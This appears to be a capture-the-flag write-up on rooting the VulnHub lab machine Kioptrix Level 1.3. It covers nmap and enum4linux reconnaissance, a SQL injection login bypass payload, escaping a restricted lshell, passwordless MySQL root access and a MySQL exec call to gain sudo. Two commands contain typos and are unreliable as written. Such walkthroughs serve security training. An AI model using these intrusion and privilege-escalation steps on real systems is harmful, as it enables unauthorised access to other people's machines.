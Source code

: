 ﻿#KIOPTRIX: LEVEL 1.3 (#4)

Today, we'll be looking at the Kioptrix level 4 machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/).

Let's scan the machine with nmap.

```
┌──(root㉿kali)-[~/kioptrix4]
└─# nmap -sS -A 192.168.88.134
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-15 04:46 EDT
Nmap scan report for 192.168.88.134
Host is up (0.00021s latency).
Not shown: 566 closed tcp ports (reset), 430 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9bad4ff21ec5f23914b9d3a00be84171 (DSA)
|_  2048 8540c6d541260534adf86ef2a76b4f0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 00:0C:29:31:00:AD (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h59m59s, deviation: 2h49m43s, median: 2h59m58s
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2023-06-15T07:47:07-04:00

TRACEROUTE
HOP RTT     ADDRESS
1   0.22 ms 192.168.88.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.15 seconds
```
Browsing the machine on port 80 we find a login page.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic1.png)

We can also see that the machine is running smb.

Let's use enum4linux to find out more information.

```enum4linux 192.168.88.134 -a```

Great! We found three usernames.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic2.png)

Let's test the login form for sql injection.

we'll use ```1 'OR 1=1-- -``` as the password.

We got john's password.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic3.png)

We also got robert's password.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic4.png)

Let's ssh into the machine as john.

Looks like we are in a restricted shell.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic5.png)

Let's try to escape that shell.

I tried a bunch of commands then I tried to cd into a directory and I found that we are using lshell.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic6.png)

I searched online and found a way to escape lshell with **echo** [here](https://www.aldeid.com/wiki/Lshell).

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic7.png)

You can also read this great [article](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/) about escaping restricted shells.

Let's use linpeas for local enumeration and try to get root.

From the results of the script, we see that we can log into mysql as root with no password.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic8.png)

```mysql -u root -p```

We got in!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic9.png)

Let's give john admin privilges.

```select_exec('usemod -a -G admin john');```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic10.png)

Now, we can just use ```sudo su```.

We are root.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic11.png)
